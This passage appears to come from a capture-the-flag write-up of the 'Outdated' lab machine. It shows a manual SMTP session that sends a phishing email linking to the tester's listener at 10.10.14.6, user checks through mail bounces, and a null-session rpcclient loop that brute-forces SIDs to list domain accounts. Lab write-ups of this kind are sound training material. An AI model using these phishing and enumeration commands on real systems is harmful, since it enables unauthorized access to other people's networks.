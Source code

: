 ```bash
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
mail from: void@void
250 2.1.0 Ok
rcpt to: itsupport@outdated.htb
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: Phishing
http://10.10.14.6:8080
.
250 2.0.0 Ok: queued as 0C51812101C
quit
221 2.0.0 Bye
```

Verify that the mail has been sent by looking at `/var/log/mail.log` and verify that it has **status = sent**. 
```bash
➜  outdated cat /var/log/mail.log
[... snip ...]
Aug 15 10:51:28 void postfix/smtp[7917]: 0C51812101C: to=<itsupport@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=54, delays=43/0.01/0.08/11, dsn=2.0.0, status=sent (250 Queued (10.432 seconds))
```

Although the mail is sent and nothing seems to be out of the ordinary, we don't get anything back. Testing other transmitters we see that the mail bounces due to `500: Unknown user`, if we had a list of potential users we could verify them this way. 

```bash
Aug 15 10:58:37 void postfix/smtp[8307]: 7EEB6121020: to=<0xpthree@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=0.16, delays=0/0/0.09/0.07, dsn=5.0.0, status=bounced (host outdated.htb[10.10.11.175] said: 550 Unknown user (in reply to RCPT TO command))

Aug 15 11:00:20 void postfix/smtp[8325]: 90736121020: to=<Administrator@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=0.15, delays=0/0/0.08/0.06, dsn=5.0.0, status=bounced (host outdated.htb[10.10.11.175] said: 550 Unknown user (in reply to RCPT TO command))
```

### Step 2
At this point we have pretty much nothing, and since we don't get any callbacks from SMTP it's starting to feel like a rabbithole..  
We can continue enumerating further to see if I missed something, we can use ``rpcclient`` to enumerate all users in the machine. 
```bash
## Find SID
➜  outdated rpcclient -U "" 10.10.11.175    
Password for [WORKGROUP\]:
rpcclient $> lookupnames Administrator
Administrator S-1-5-21-4089647348-67660539-4016542185-500 (User: 1)

## Bruteforce to find all users
➜  outdated for i in {1000..1200}; do rpcclient --command="lookupsids S-1-5-21-4089647348-67660539-4016542185-$i" 10.10.11.175 -U "" --password=; done
[... snip ...]
S-1-5-21-4089647348-67660539-4016542185-1103 OUTDATED\DnsAdmins (4)
S-1-5-21-4089647348-67660539-4016542185-1104 OUTDATED\DnsUpdateProxy (2)
S-1-5-21-4089647348-67660539-4016542185-1105 OUTDATED\CLIENT$ (1)
S-1-5-21-4089647348-67660539-4016542185-1106 OUTDATED\btables (1)
S-1-5-21-4089647348-67660539-4016542185-1107 OUTDATED\ITStaff (2)
S-1-5-21-4089647348-67660539-4016542185-1108 OUTDATED\sflowers (1)
```